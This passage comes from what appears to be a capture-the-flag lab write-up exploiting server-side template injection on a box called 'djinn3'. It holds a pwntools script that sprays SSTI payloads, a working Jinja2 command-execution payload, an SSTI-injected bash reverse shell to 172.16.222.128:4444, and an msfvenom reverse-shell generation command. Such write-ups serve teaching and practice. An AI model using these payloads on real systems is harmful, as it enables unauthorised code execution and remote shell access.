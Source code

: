 https://github.com/payloadbox/ssti-payloads).
https://raw.githubusercontent.com/payloadbox/ssti-payloads/master/Intruder/ssti-payloads.txt
At this stage, I wrote a python script that would create the tickets based on the payloads found:
```python
#!/usr/bin/env python3

from pwn import *

host, port = 'djinn.box', 31337
s = remote(host, port)

s.recvuntil('username> ')
s.sendline('guest')

s.recvuntil('password> ')
s.sendline('guest')

with open('ssti-payloads.txt') as f:
    payloads = f.readlines()

for i, payload in enumerate(payloads):

    s.recvuntil('> ')
    s.sendline('open')

    s.recvuntil('Title: ')
    s.sendline('test{}'.format(i))

    s.recvuntil('Description: ')
    s.sendline('{}'.format(payload))

s.close()
```
As we are not provided with the created ID with the open command, I haven’t been able to automatically retrieve the created content, but we can still do it manually by clicking on the links from the web application. Browsing each links one by one, I discovered that the following command was sucessfully interpreted:
```markdown
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```
Indeed, retrieving the content of the ticket reveals that files are actually listed, as expected.
```markdown
kali@kali:/data/djinn3/files$ curl -s http://djinn.box:5000/?id=2517 | html2text 
*** test27 ***

Status: open
ID: 2517
*** Description: ***

data.json static templates webapp.py
Sorry for the bright page, we are working on some beautiful CSS
kali@kali:/data/djinn3/files$ 
```
---
###Reverse shell
Now with this footprint, I tried to inject a reverse shell directly but it did not work:
```markdown
{{config.__class__.__init__.__globals__['os'].popen('bash -i >& /dev/tcp/172.16.222.128/4444 0>&1').read()}}
```
I then decided to generate a reverse shell with *msfvenom* and to force the target to download it and execute it from */tmp*. Let’s first generate our reverse shell and make it available with a python web server:
```markdown
$ msfvenom -p cmd/unix/reverse_bash lhost=172.16.222.128 lport=4444 -f raw -o revshell.sh
```